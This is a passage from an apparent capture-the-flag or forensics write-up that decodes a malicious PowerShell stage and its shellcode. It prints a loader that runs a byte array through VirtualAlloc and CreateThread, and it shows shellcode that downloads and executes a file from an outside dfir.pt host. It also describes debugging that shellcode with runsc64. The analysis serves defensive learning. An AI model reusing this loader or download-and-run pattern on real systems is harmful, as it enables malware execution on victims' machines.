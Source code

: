 If you look at the script, you'll see that it decodes another Base64 encoded string and then decompresses it's result using GZip. If you provide the string `H4sI...AAA==` as input to CyberChef and apply the recipe "From Base64" > "Gunzip", you'll get another PowerShell script:

```powershell
if ($txtRecord = (Resolve-DnsName -Name "cscpt.dfir.pt" -Type TXT -Server "8.8.8.8" | Select-Object -ExpandProperty Strings)) { New-Item -Path "HKCU:\SOFTWARE\Setec" -Force | Out-Null; Set-ItemProperty -Path "HKCU:\SOFTWARE\Setec" -Name "License" -Value ($txtRecord -join "") }
...
[Byte[]] $hgPLffkJY = 0x48,0x83,...,0xc4,0x20

$sljwiiCURtDMX = $IwaCWYUoftIYXr::VirtualAlloc(0,[Math]::Max($hgPLffkJY.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($hgPLffkJY,0,$sljwiiCURtDMX,$hgPLffkJY.Length)

$IwaCWYUoftIYXr::CreateThread(0,0,$sljwiiCURtDMX,0,0,0)
```

This new script starts by trying to resolve the DNS name "cscpt.dfir.pt" and obtain it's TXT record value. If it does, it creates the Registry key "License" with the value of that TXT record in the path "HKCU:\SOFTWARE\Setec".

If you try to retrieve the TXT record manually, you'll see that it is no longer available online.

Then, it eventually calls the `kernel32.dll` functions `VirtualAlloc` and `CreateThread` in order to run a piece of shellcode, through the contents of the byte array variable `$hgPLffkJY`.

In order to dump that shellcode, we can do it dynamically by debugging the script, or statically using Cyberchef. If you provide the bytes `0x48,0x83,...,0xc4,0x20` as input to CyberChef, delete the "0x"s and replace "," by " ", and then apply the recipe "From Hex", you'll get the shellcode:
```bash
Hì(HäðH1ÉeHA`H@Hp H­HH­HX M1ÀDC<LÂHÚH1É±HÑDIØH1öAp HÞH1ÉI¹GetProcAHÿÁH1ÀHØL9uïH1öAp$HÞfNH1öApHÞH1ÒHÚH×¹aryAQH¹LoadLibrQHâHÙHì0ÿ×HÄ0HÄHÆH1Àf¸llPH¸urlmon.dPHáHì0ÿÖHÄ@PH1Àf¸eAPH¸oadToFilPH¸URLDownlPHâHL$Hì0ÿ×HÄHPH1ÀH¸WinExec PHâHÙHì(ÿ×HÄ0PH1À¸ess PH¸ExitProcPHâHÙHì(ÿ×HÄ8PH1À°nPH¸cscpt.biPH¸dfir.pt/PH¸https://PTH1ÀH¸2.exe   PH¸\rundll3PH¸SOSharedPH¸amData\UPH¸C:\ProgrPTH1ÀPM1ÉLD$HT$8H1ÉHì ÿ$   HÄ HÄ`H1ÀH¸2.exe   PH¸\rundll3PH¸SOSharedPH¸amData\UPH¸C:\ProgrPTH1ÒH$Hì ÿT$XHÄ HÄ0H1ÉHì ÿT$ HÄ 
```

We can spot strings such as "URLDownloadToFile", "cscpt", "dfir.pt", "2.exe", "rundll", "C:\ProgramData", etc. These strings suggest that this shellcode downloads a file from "dfir.pt", but we can't make much sense of out it, at least statically.

#### Debugginng Shellcode using runsc and x64dbg

I opted to run the shellcode and debug it, in order to find the call to the target URL. To do that, I used the `runsc` utility by [edygert](https://github.com/edygert/runsc/releases/tag/V1.0.0) which loads 32bit or 64bit shellcode in a way that makes it easy to load in a debugger.

After saving the previous mentioned shellcode to the file `shellcode.bin`, we can run the following command in a Windows machine:
```cmd
> runsc64.exe -f shellcode.bin -n
```

As it doesn't blow up, it means it ran. If you tried this with `runsc32.exe` (32bit shellcode), you would get the following error: "error accessing 0x00000060 not mapped", which suggests that it's probably 64bit shellcode.
